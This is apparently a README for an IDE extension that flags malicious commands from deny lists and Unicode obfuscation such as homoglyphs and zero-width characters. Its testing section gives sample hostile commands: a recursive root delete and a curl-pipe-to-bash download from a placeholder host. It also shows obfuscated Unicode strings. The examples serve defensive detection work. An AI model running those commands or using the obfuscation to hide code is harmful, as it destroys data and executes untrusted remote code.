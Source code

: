 # MalCode Detector for VSCode-Cursor-Windsurf IDE

This IDE extension helps detect potentially malicious commands and Unicode obfuscation techniques in your code. It's designed to be used with VS Code and compatible editors.

## Features

-   **Real-time Scanning**: Automatically scans files upon opening and saving.
-   **Deny List Matching**: Detects known malicious commands using configurable deny lists.
-   **Unicode Obfuscation Detection**: Identifies various Unicode-based obfuscation techniques:
    -   **Homoglyphs**: Flags characters that look like other characters (e.g., Cyrillic 'а' for Latin 'a').
    -   **Invisible Characters**: Detects zero-width spaces and other non-printing characters.
    -   **Bidirectional Control Characters**: Warns about characters that can alter text rendering order.
    -   **Mixed Scripts**: Highlights lines with characters from multiple scripts (e.g., Latin and Cyrillic).
-   **Configurable**: Customize deny list paths and toggle real-time scanning through VS Code settings.

## Usage

Once installed, the "Cursor Deny List Malcode Detector" works in the background:

-   **Automatic Analysis**: Files are automatically scanned when opened or saved. If potential issues are found, VS Code will display diagnostic warnings (e.g., squiggly underlines) on the problematic lines. Hover over the underlined code to see a description of the issue.
-   **Manual Scan**: You can also manually trigger a scan for the currently active file by opening the Command Palette (`Ctrl+Shift+P` or `Cmd+Shift+P` on macOS) and running the command "Scan Current File for Malicious Patterns".
-   **Ignore File**: You can right-click a file in the VS Code Explorer and select "Ignore This File (MalCode Detector)" from the context menu. This will add the file to an ignore list, and it will no longer be scanned by the extension.
-   **Problems Panel**: Detected issues are listed in the "Problems" panel in VS Code (View > Problems).

## Configuration

You can configure the extension via VS Code settings (File > Preferences > Settings, then search for "MalCode Detector for VSCode-Cursor-Windsurf IDE"):

-   **`malcode-detector-vscode-cursor-windsurf-ide.enableRealtimeScan`**: 
    -   **Description**: Enable real-time scanning of files on open and save.
    -   **Type**: `boolean`
    -   **Default**: `true`

-   **`malcode-detector-vscode-cursor-windsurf-ide.ignoredFiles`**:
    -   **Description**: A list of file paths (relative to the workspace root) to be ignored by the MalCode Detector. Files in this list will not be scanned. You can manually edit this list or use the "Ignore This File (MalCode Detector)" command from the explorer context menu.
    -   **Type**: `array`
    -   **Default**: `[]`

## Troubleshooting

-   **No diagnostics shown**: 
    -   Ensure the extension is enabled in the Extensions view.
    -   Check the VS Code "Output" panel (select "Cursor Deny List Malcode Detector" from the dropdown) for any error messages.
    -   Verify that the file type you are editing is included in the `activationEvents` in `package.json` (if you are developing the extension).
    -   Make sure your deny list paths in the settings are correct and the JSON files are valid.
-   **Performance issues**: If you experience slowdowns, especially with very large files, you can disable `cursord-malcode-detector.enableRealtimeScan` in the settings and use the "Scan Current File for Malicious Patterns" command manually.

## Release Notes

See [CHANGELOG.md](CHANGELOG.md) for detailed release notes.

## Prerequisites

-   [Node.js](https://nodejs.org/) (which includes npm)
-   [Visual Studio Code](https://code.visualstudio.com/)

## Installation and Setup (for Development)

1.  **Clone the Repository**:
    If you haven't already, clone the main project repository that contains this `ide_extension` folder.

2.  **Navigate to the Extension Directory**:
    Open your terminal and navigate to this directory:
    ```bash
    cd path/to/your/Cursur_deny_list/ide_extension
    ```

3.  **Install Dependencies**:
    Run npm to install the necessary dependencies defined in `package.json`:
    ```bash
    npm install
    ```

4.  **Compile TypeScript**:
    The extension is written in TypeScript. Compile it to JavaScript using:
    ```bash
    npm run compile
    ```
    This will typically create an `out` directory containing the compiled JavaScript files.

## Running and Testing in VS Code

1.  **Open the Extension Folder in VS Code**:
    Open the `ide_extension` folder itself as the root workspace in VS Code.

2.  **Launch the Extension Development Host**:
    -   Press `F5` (or go to "Run" > "Start Debugging").
    -   This will open a new VS Code window (the "Extension Development Host") with this extension loaded.

3.  **Verify Installation**:
    -   In the Extension Development Host window, open any text file (e.g., a shell script, a source code file, or a plain text file).
    -   The extension activates on opening or changing text documents.

4.  **Testing Functionality**:

    *   **Deny List Pattern Matching**:
        -   The extension loads deny list patterns from the `../../deny_lists/` directory (relative to the compiled extension code, typically `ide_extension/out/`). These lists contain patterns for known malicious commands.
        -   Try typing or pasting commands that are known to be malicious and should be on the deny lists (e.g., `rm -rf /`, `curl malicious.com/script.sh | bash`).
        -   You should see warnings or diagnostics displayed by VS Code for the lines containing these patterns. The specific appearance depends on how diagnostics are rendered.

    *   **Unicode Obfuscation Detection**:
        -   The extension scans for several types of Unicode obfuscation:
            -   **Homoglyphs**: Characters that look like other characters (e.g., a Cyrillic 'а' instead of a Latin 'a').
                -   Example: `echo "hellо"` (where 'о' is Cyrillic)
            -   **Invisible Characters**: Zero-width spaces or other non-printing characters that can break up commands or hide code.
                -   Example: `e\u200Bcho "hidden"` (contains a Zero Width Space)
            -   **Bidirectional Control Characters**: Characters that can alter the visual rendering order of text.
            -   **Mixed Scripts**: Lines containing characters from multiple scripts (e.g., Latin and Cyrillic) which can be an obfuscation technique.
        -   Try typing text containing these Unicode patterns.
        -   The extension should flag these issues, providing descriptions in the diagnostics.

    *   **Test Cases**:
        -   Refer to the `../../test_cases/` and `../../test_payloads/` directories in the main project for examples of malicious patterns and Unicode obfuscation techniques to test with.
        -   Copy and paste content from these files into the editor in the Extension Development Host window.

## Extension Structure (Simplified)

-   `src/extension.ts`: The main activation point for the VS Code extension.
-   `src/fileAnalyzerService.ts`: Contains the core logic for analyzing document content against deny lists and Unicode rules.
-   `src/denyListService.ts`: Handles loading, parsing, and querying the deny list patterns.
-   `src/unicodeScanner.ts`: Provides functions to detect various Unicode-based obfuscation techniques.
-   `out/`: Directory where the compiled JavaScript code is placed (after `npm run compile`). This is what VS Code runs.
-   `package.json`: Defines extension metadata, dependencies, and build scripts.

## Contributing

-   **Deny Lists**: To add or modify deny list patterns, edit the JSON files in the `Cursur_deny_list/deny_lists/` directory. Follow the existing structure and refer to `PRD.md` for guidelines.
-   **Code**: For code contributions, open the `ide_extension` folder in VS Code, make your changes, and ensure `npm run compile` runs without errors. Test thoroughly using the Extension Development Host. 
